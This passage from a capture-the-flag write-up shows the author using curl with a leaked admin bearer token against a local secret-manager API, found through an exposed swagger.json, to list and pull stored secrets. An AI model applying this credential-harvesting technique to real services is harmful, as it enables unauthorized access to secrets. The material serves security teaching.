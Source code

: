How about `secrets` ? Sounds like some serious businesses 😉

![alt text](./.imgs/secretzip.png)

HHHmmm... password-protected, where can I find the password? or should I brute force it? Oh wait, recalling back to the exposed `swagger.json` file, there were some endpoints to a service called `secretmanager`

```
/v1/api/admin/secret-manager/list
/v1/api/admin/secret-manager/get
```

Let's play around with those, maybe there are exposed secrets too.

```bash
curl http://localhost:3000/v1/api/admin/secret-manager/list -H "Authorization: Bearer SUp3Rs3cReTAPI_k3y--f0r-_c0deCtFAdMiN" | jq
```

Response:

```json
{
  "secrets": [
    {
      "id": "4a59bbe2-d02f-442f-b409-65cf53127aa0",
      "name": "Zip It !!!",
      "description": "awdawdawd whatever, it's a password to my files"
    },
    {
      "id": "94243568-aa14-46f8-a633-c94c7c75a325",
      "name": "Unknown",
      "description": "Just Testing Secret Mnanager, ignore this"
    }
  ]
}
```

Oh wow, so there are two secrets, let's get 'em all...

```bash
# Secret 1:
curl http://localhost:3000/v1/api/admin/secret-manager/get?id=94243568-aa14-46f8-a633-c94c7c75a325 -H "Authorization: Bearer SUp3Rs3cReTAPI_k3y--f0r-_c0deCtFAdMiN" | jq
# Response:
# {
#   "status": "Found",
#   "key": "1234567890"
# }

# Secret 2:
curl http://localhost:3000/v1/api/admin/secret-manager/get?id=4a59bbe2-d02f-442f-b409-65cf53127aa0 -H "Authorization: Bearer SUp3Rs3cReTAPI_k3y--f0r-_c0deCtFAdMiN" | jq
```
